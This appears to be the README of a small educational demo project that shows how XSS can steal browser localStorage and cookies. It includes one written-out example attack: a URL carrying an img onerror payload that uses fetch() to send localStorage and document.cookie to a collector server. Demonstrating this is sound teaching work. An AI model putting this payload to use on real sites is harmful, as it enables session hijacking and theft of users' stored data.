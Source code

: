 ## How to use

### Server

In the project directory server, you can run:

#### `npm start`

The server listens on port 3001


### Client

In the project directory client, you can run:

#### `npm start`

Open [http://localhost:3000](http://localhost:3000) to view it in the browser.

Example attack: http://localhost:3000/?text=<img src onerror="fetch(`http://localhost:3001?localStorage=${JSON.stringify(localStorage)}&cookie=${JSON.stringify(document.cookie)}`).then(data => data.json()).then(data => console.log('server response', data))" />

Check console for the response from server

## Conclusion

Both localstorage and cookies are vulnerable in about the same severity. Be careful what data you store in them :)